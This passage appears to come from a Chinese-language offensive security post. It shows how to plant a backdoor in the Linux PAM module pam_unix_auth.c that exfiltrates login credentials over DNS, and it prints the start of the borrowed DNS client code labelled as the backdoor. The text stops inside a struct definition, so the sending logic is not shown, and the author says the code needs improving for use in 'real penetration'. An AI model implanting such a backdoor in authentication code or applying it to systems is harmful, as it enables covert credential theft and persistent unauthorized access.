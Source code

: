 因此，在这一点上注入我们的过滤逻辑看起来很好。作为PoC，我们可以使用[这段代码](https://gist.github.com/fffaraz/9d9170b57791c28ccda9255b48315168)(SilverMoon-29/4/2009)，所以主要的外排逻辑还没有实现(这段代码有一些缺陷-例如，它没有将服务器IP从Resolv.conf-…中取走) 因此，如果要在真正的渗透中使用它，需要改进代码；D)。让vim文件pam_unix_Auth.c添加所需的函数和头文件！：

```
/* Fun starts here :)

 * pam_sm_authenticate() performs UNIX/shadow authentication
 *
 *      First, if shadow support is available, attempt to perform
 *      authentication using shadow passwords. If shadow is not
 *      available, or user does not have a shadow password, fallback
 *      onto a normal UNIX authentication
 */
/* Backdoor  - DNS code extracted from https://gist.github.com/fffaraz/9d9170b57791c28ccda9255b48315168 */


// The code sucks a lot. It is Sunday and I have a hangover, so I am not in the mood to fix it. 
// Tons of bug and useless code that you should remove. Forgive me, please :)

#include &lt;sys/socket.h&gt;
#include &lt;arpa/inet.h&gt;
#include &lt;netinet/in.h&gt;

//List of DNS Servers registered on the system
char dns_servers[10][100];
int dns_server_count = 0;
//Types of DNS resource records :)

#define T_A 1 //Ipv4 address
#define T_NS 2 //Nameserver
#define T_CNAME 5 // canonical name
#define T_SOA 6 /* start of authority zone */
#define T_PTR 12 /* domain name pointer */
#define T_MX 15 //Mail server

//Function Prototypes
void ngethostbyname (unsigned char* , int);
void ChangetoDnsNameFormat (unsigned char*,unsigned char*);
unsigned char* ReadName (unsigned char*,unsigned char*,int*);
void get_dns_servers();

//DNS header structure
struct DNS_HEADER
`{`
    unsigned short id; // identification number

    unsigned char rd :1; // recursion desired
    unsigned char tc :1; // truncated message
    unsigned char aa :1; // authoritive answer
    unsigned char opcode :4; // purpose of message
    unsigned char qr :1; // query/response flag

    unsigned char rcode :4; // response code
    unsigned char cd :1; // checking disabled
    unsigned char ad :1; // authenticated data
    unsigned char z :1; // its z! reserved
    unsigned char ra :1; // recursion available

    unsigned short q_count; // number of question entries
    unsigned short ans_count; // number of answer entries
    unsigned short auth_count; // number of authority entries
    unsigned short add_count; // number of resource entries
```